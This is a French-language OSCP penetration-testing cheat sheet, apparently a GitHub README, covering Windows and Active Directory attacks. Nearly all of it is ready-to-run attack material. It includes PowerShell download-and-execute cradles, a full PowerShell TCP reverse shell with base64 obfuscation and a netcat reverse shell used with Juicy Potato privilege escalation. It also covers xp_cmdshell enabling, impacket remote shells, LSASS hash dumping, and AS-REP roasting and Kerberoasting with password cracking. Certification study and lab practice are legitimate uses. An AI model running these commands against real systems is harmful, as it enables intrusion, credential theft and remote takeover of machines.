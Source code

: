 <img src="https://github.com/florianges/Simple-OSCP-cheat-sheet/assets/64069514/4f64d883-9cac-4bc5-b1a5-bcb1f488d072" height="180">

## Commande windows:
**Télécharger puis exécuter un fichier:** powershell "IEX (New-Object Net.WebClient).DownloadString('http://[IP]/shell2.ps1')"
**Télécharger un fichier:** wget http://[IP]/[fichier] -outfile [fichier]  
Ou alors: (new-object System.Net.WebClient).DownloadFile('http://[IP]/shell.exe','C:\Users\Public\shell.exe')  
**Historique Powershell:** type C:\Users\[user]\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt  
**Information systeme:** systeminfo  
**Lister les infos d'un user:** net user [user]  
**Lister quel groupe / user ont accès au fichier:** icacls [fichier]  

## Partage Samba:
**Lister tout les partages en anonymous:** smbclient -N -L \\\\[IP]\\  
**Ou:** crackmapexec smb <IP> -u '[user]' -p '[pass]' --shares #Null user  
**Lister tout les partages et les droits associés:** smbmap -H [ip]  
**Aller dans un partage:** smbclient -N \\\\[IP]\\[nom_du_partage]  
**Énumération  des services windows:** enum4liux [IP CIBLE]  

## Connexion a Windows Management (port 5985 par défaut) :
•	evil-winrm -i [IP] -u [USER]  

## Commande powershell offusquée:
pwsh  
$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'  
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)  
$EncodedText =[Convert]::ToBase64String($Bytes)  
$EncodedText  
exit  

## Executer des commandes via MSQL :  
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth  
EXECUTE sp_configure 'show advanced options', 1;  
RECONFIGURE;  
EXECUTE sp_configure 'xp_cmdshell', 1;  
RECONFIGURE;  
EXECUTE xp_cmdshell 'whoami';  

## Utilisation du service RPC :
**Connexion au serveur:** rpcclient -U "[USER]" [IP]  
**Lister les users:** enumdomusers  
**Informations sur un user:** queryuser [user]  
**Transformer le format "enumdomusers" en une liste de user:** cat user.txt | tr -d '[]' | cut -d ' ' -f1 | cut -c6-  
**Lister les groupes:** enumdomgroups  
**Lister les groupe du domaine:** enumalsgroups domain  
**Lister les groupe par défault:** enumalsgroups builtin  
**Lister les SID présent dans un groupe :** queryaliasmem domain [RID]  
**Trouver le nom d'un utilisateur via son SID:** lookupsids [SID]  
**lister les partages NFS:** nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount [IP]  

## Utilisation de impacket :
**shell via un partage samba :** psexec.py [user]@[IP]  
**shell via un partage samba en écriture:** smbexec.py [user]@[IP]  
**shell via Windows Management Instrumentation:** wmiexec.py [user]@[IP]  
**commande via le Planificateur de tâches:** atexec.py [user]@[IP] [commande]  
**connexion à MSQL:**  impacket-mssqlclient [user]@[IP] -windows-auth  

## Bloodhound-python :
sudo neo4j start --> démare neo4j  
bloodhound --no-sandbox --> ouvre bloodhound  
bloodhound-python -d [domain] -u [user] -p [password] -gc [name.domain] -c all -ns [IP] --> récupère les fichiers  
Find Principles with DCSync Rights. --> propose un schéma avec les objets principaux  
Shortest Paths to High value Targets --> propose un schéma avec plus de détail  

## Post énumération (script) :
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe

## Reverse shell :
powershell iex(new-object net.webclient).downloadstring('http://[IP]/shell.ps1')  
Télécharger shell.ps1  

## Récupérer les hash du processus LSASS:
crackmapexec smb 192.168.1.105 -u '[user]' -p '[password]' --lsa

## Attaque sur Kerberos:
### ASREPRoast:
ASREPRoast est une technique qui permet de récupérer le mot de passe Kerberos d'un utilisateur en brutforcant son TGT lorsque que la pré-authentification est désactivé  
récupération du hash d'un compte:  
GetNPUsers.py [domaine]/[user] -request -no-pass -dc-ip [IP]  
Liste des users  
GetNPUsers.py [domaine]/ -dc-ip [IP] -request  
récupération d'un hash avec une wordlist de user:  
GetNPUsers.py [domaine]/ -usersfile [wordlist user] -request -no-pass -dc-ip [IP]  
Bruteforce du hash:  
john [hash file] -wordlist=rockyou.txt  
### Kerberoasting:
Kerberoasting est une technique pour récupérer le mot de passe d'un compte de service en bruteforcant le TGS fournis pour ce service  
récupération du hash:  
GetUserSPNs.py -request -dc-ip [ip] [FQDN]/[user]  
Bruteforce du hash:  
john [hash file] -wordlist=rockyou.txt  

### Juicy Potato:
Dans sa configuration par défaut, Microsoft Windows Serveur a une vulnérabilité critique qui peut permettre l'élévation de privilèges.  
Cette vulnérabilité s'appelle Juicy Potato.  
Les versions de Windows Serveur suivantes sont affectées :  
•	Windows Serveur 2008 R2  
•	Windows Serveur 2012  
•	Windows Serveur 2012 R2  
•	Windows Serveur 2016  
Méthode :  
Uploader le .exe : dowload  
créer un .bat reverse shell:  
echo START C:\inetpub\wwwroot\wordpress\wp-content\nc.exe 10.10.14.69 1111 -e cmd.exe > reverse_shell.bat  
Puis l'exécuter avec Juicy Potato  
PS.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\reverse_shell.bat -l 1337  
